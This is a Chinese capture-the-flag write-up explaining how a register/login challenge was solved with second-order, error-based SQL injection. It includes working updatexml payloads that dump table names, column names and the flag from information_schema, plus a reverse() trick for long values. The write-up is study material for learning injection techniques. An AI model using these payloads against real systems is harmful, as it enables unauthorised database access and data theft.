




## 思路

1. 打开网页，显示可以注册和登录。

   注册是一个写入数据库的过程，登录是查询数据库的过程，所以可以大致推测本题可能存在二次注入。

2. 首先测试注册过程是否存在waf，输入如下，会弹出invalid string。

   

3. 使用bp测试被过滤的字符串，如下：

   

4. username `test\`   然后进入修改密码的页面，可以看到下面的报错提示。

   可以推测后台的sql语句可能为：

   `select * from users where username="" and pwd=""`

   闭合符号为"

5. 页面显示了报错信息，说明我们可以尝试报错注入。

   - 获取数据表信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1))#`

   - 获取列名信息：

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))),1))#`

   - 获取flag:

     `username=peri0d"||(updatexml(1,concat(0x3a,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

     `username=peri0d"||(updatexml(1,concat(0x3a,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),1))#`

## 总结

   - 本题的核心是SQL二次注入，是学习SQL二次注入的比较好的例子。
   - 报错型注入
   - 当flag很长时需要两次获取，reverse函数的使用
   - 待完善。。。